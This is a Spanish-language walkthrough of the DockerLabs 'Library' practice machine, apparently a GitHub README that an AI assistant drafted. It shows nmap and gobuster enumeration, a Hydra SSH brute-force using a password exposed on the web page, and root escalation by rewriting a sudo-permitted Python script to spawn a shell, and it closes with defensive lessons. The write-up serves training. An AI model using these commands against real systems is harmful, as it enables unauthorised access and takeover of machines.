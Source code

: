 Claro, aquí tienes el **informe profesional y didáctico** sobre la máquina vulnerable **"Library"** de DockerLabs. Está redactado de forma clara y completa, orientado tanto a quienes tienen experiencia como a principiantes, con las imágenes integradas en rutas locales para GitHub:

---

# 🧠 Informe de Pentesting – Máquina *Library* (DockerLabs)

* **Dificultad**: Fácil
* **IP de la máquina**: `172.17.0.3`
* **Objetivo**: Obtener acceso como usuario, escalar privilegios y conseguir acceso root
* **Herramientas utilizadas**: `nmap`, `gobuster`, `hydra`, `python`, `sudo`

---

## 🛠️ Preparación del entorno

Se descargó la máquina vulnerable desde la plataforma DockerLabs y se desplegó utilizando los siguientes comandos:

```bash
unzip library.zip
sudo bash auto_deploy.sh library.tar
```


![Despliegue de la máquina](/Imágenes/2025-05-14_08-28.png)

---

## 📡 Comprobación de conectividad

Para verificar que la máquina está activa en la red, hicimos un ping:

```bash
ping -c1 172.17.0.3
```


![Ping a la máquina vulnerable](/Imágenes/Capturas.png)

---

## 🔍 Escaneo de puertos con Nmap

### 1. Enumeración de todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Esto reveló dos puertos abiertos:

* **22** (SSH)
* **80** (HTTP)


![Escaneo de puertos](/Imágenes/Capturas_1.png)

---

### 2. Detección de servicios y versiones:

```bash
nmap -sC -sV -p80,22 172.17.0.3 -oN target.txt
```


![Servicios detectados](/Imágenes/Capturas_2.png)

---

## 🌐 Exploración del servicio web (HTTP)

Al visitar `http://172.17.0.3:80`, encontramos la página por defecto de **Apache2**, sin contenido personalizado.


![Página por defecto de Apache](/Imágenes/Capturas_3.png)

---

## 🚪 Fuzzing de directorios con Gobuster

Comenzamos a buscar rutas ocultas usando la siguiente herramienta:

```bash
gobuster dir -u http://172.17.0.3/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron tres directorios interesantes.


![Directorios descubiertos](/Imágenes/Capturas_4.png)

---

## 🔑 Descubrimiento de posibles credenciales

En el directorio `index.php` encontramos una cadena alfanumérica:

```
JIFGHDS87GYDFIGD
```


![Cadena sospechosa encontrada](/Imágenes/Capturas_5.png)

---

## 📁 Fuzzing profundo en subdirectorios

### Directorio `/javascript`

```bash
gobuster dir -u http://172.17.0.3/javascript \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```


![Fuzzing javascript](/Imágenes/Capturas_6.png)

---

### Directorio `/javascript/jquery`

```bash
gobuster dir -u http://172.17.0.3/javascript/jquery \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```


![Fuzzing jquery](/Imágenes/Capturas_7.png)
---
![Resultados adicionales](/Imágenes/Capturas_8.png)

---

## 🔐 Ataque de fuerza bruta con Hydra (SSH)

Dado que teníamos un posible password (`JIFGHDS87GYDFIGD`), intentamos un ataque de fuerza bruta solo sobre el nombre de usuario, usando Hydra:

```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
  -p JIFGHDS87GYDFIGD ssh://172.17.0.3 -t 4
```

🎯 **Resultado exitoso**:

```
[22][ssh] host: 172.17.0.3   login: carlos   password: JIFGHDS87GYDFIGD
```

![Credenciales encontradas](/Imágenes/Capturas_9.png)

---

## 🧑‍💻 Acceso al sistema

Nos conectamos vía SSH con las credenciales obtenidas:

```bash
ssh carlos@172.17.0.3
```

---

## 📈 Escalada de privilegios

Una vez dentro del sistema, ejecutamos:

```bash
sudo -l
```

Esto reveló que el usuario `carlos` puede ejecutar el siguiente script con privilegios de superusuario:

```bash
(ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

![Permisos sudo sobre script.py](/Imágenes/Capturas_10.png)

---

### 🐍 Explotación del script

El script original parecía hacer una copia de archivos. Lo editamos para obtener una shell con privilegios root:

```python
# script.py modificado
import os
os.system("/bin/sh")
```

Luego lo ejecutamos con sudo:

```bash
sudo /usr/bin/python3 /opt/script.py
```

Y así obtuvimos una shell como **root**. 🎉

![Shell como root](/Imágenes/Capturas_11.png)

---

## ✅ Conclusión

* Se logró acceder a la máquina usando credenciales descubiertas mediante análisis web y fuerza bruta.
* Se identificó un vector claro de escalada de privilegios gracias a un script ejecutable con permisos sudo.
* Este ejercicio destaca la importancia de:

  * No dejar archivos sensibles o contraseñas visibles en páginas web.
  * Limitar los permisos sudo a scripts controlados.
  * Restringir los binarios interpretables como `python`.
